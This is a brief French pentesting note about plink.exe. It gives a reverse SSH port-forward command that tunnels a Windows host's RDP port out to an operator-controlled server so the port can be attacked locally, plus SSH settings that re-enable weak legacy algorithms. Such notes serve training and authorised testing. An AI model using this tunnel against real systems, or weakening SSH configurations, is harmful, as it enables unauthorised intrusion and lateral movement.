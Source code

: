 # plink
kali: présent dans: /usr/share/windows-binaries/

## utiliser ssh pour ensuite attaquer le port localement:

plink.exe <users>@<IP or domain> -pw <password> -P 22 -R 12345:127.0.0.1:3389



## si pbm de key exchange: à ajouter en fin de serveur ssh:

HostKeyAlgorithms ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521,ssh-rsa,ssh-dss

KexAlgorithms ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group14-sha1,diffie-hellman-group-exchange-sha256

MACs hmac-sha2-256,hmac-sha2-512,hmac-sha1


